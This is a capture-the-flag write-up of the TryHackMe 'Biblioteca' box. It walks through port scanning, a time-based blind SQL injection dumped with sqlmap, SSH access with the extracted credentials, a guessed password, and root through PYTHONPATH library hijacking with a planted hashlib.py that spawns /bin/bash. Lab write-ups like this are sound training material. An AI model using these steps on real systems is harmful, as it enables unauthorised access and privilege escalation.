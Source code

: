 ```yaml
---
layout: post
title: THM Biblioteca - Writeup
date: 2025-09-26 20:46 -0400
categories: ["Writeup"]
tags: ["thm","sqli","web","python"]
---
```


# 🏴 THM Writeup – Biblioteca

## 📌 Challenge Info

- **CTF Name:** Biblioteca
- **Url**: https://tryhackme.com/room/biblioteca
- **Category:** Web
- **Points:** 60
- **Difficulty:** Medium


---
## 📝 Description
> This is a medium difficulty box with basic enumeration and an interesting privilege escalation vector.

## 🧠 Enumeration / Recon


```bash
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)

Host: 10.201.1.150 ()	Status: Up
Host: 10.201.1.150 ()	Ports: 22/open/tcp//ssh//OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)/, 8000/open/tcp//http//Werkzeug httpd 2.0.2 (Python 3.8.10)/

# Nmap done at Thu Sep 25 22:30:08 2025 -- 1 IP address (1 host up) scanned in 66.58 seconds
```

We identified 2 ports, lets start with the HTTP service in port 8000, there is a simple login and sign up page.

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-6.png)

---

## 🔍 Inititial Foothold

After registering a test user, only a simple authenticated page is shown.

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-7.png)

From the login requests we will try some sqlinjection testing.

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-8.png)

Before launching the intruder attack, add a payload processing option, in this case replace `__TIME__` with 10, to specify 10 seconds of waiting on our blind sqli tests.

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-9.png)

The following request confirms a blind sql injection.

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-10.png)

Sending this to repeater we can confirm the request waits 10 seconds before sending a response confirming a SQL injection vulnerability.

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-11.png)

Send this request to sqlmap and proceed to dump the database website.

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-1.png)

From the database we extracted a set of credentials.

```
smokey@email.boop | <redacted> | smokey
```

Then, access via ssh with this credentials.

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926.png)

We found 4 working users, doing some search we can find where is `user.txt` is located, actually is under hazel home directory. Therefore we need to find a way to escalate privileges to this user.

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-2.png)

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-3.png)

After doing a lot of enumeration in the box I couldn't find anything useful to switch the user to hazel. So the last try is to test some obvious passwords directly.

So trying username as password worked! `hazel:hazel` (sometimes this is not straightforward), so I noticed this password is also contained in many seclists wordlists, so there would be a little slower way to get the right password brute forcing too.

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-12.png)
## 🏁 Rooting

Checking sudo rights with  `sudo -l`, we can see that this user is able to run the script as root, so this must be the way to escalate privileges to root.

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-13.png)

The file contains, a script that generates a hash representation using the library `hashlib.py`, at first sight there is nothing unusual or vulnerable in the code.
```python
import hashlib

def hashing(passw):
    md5 = hashlib.md5(passw.encode())
    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())
    sha256 = hashlib.sha256(passw.encode())
    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())
    sha1 = hashlib.sha1(passw.encode())
    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())

def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

After doing some research, I found a really consistent article about this kind of vulnerabilities: [Here](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8).

> The **_PYTHONPATH_** environment variable indicates a directory (or directories), where Python can search for modules to import.
> It can be abused if the user got privileges to set or modify that variable, usually through a script that can run with **_sudo_** permissions and got the **_SETENV_** tag set into **_/etc/sudoers_** file. -

Now to exploit this we need to create a fake `hashlib.py` ,  inside the `/tmp/` directory, 

```
touch /tmp/hashlib.py
```

Edit the file the the following content

```python
import os
os.system("/bin/bash")
```

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-14.png)

Finally execute the following command to get a root shell

```bash
sudo PYTHONPATH=/tmp/ /usr/bin/python3 /home/hazel/hasher.py
```

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-15.png)

Get the flag!

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-16.png)

---
## 🏆 Win

![](/assets/img/posts/2025-09-26-thm-biblioteca-writeup/biblioteca-20250926-5.png)

---
## 🤔 Lessons Learned

- Check libraries permissions
- Brute force only as last resort, sometimes the obvious and easiest works better.


---
## 📚 References
- https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8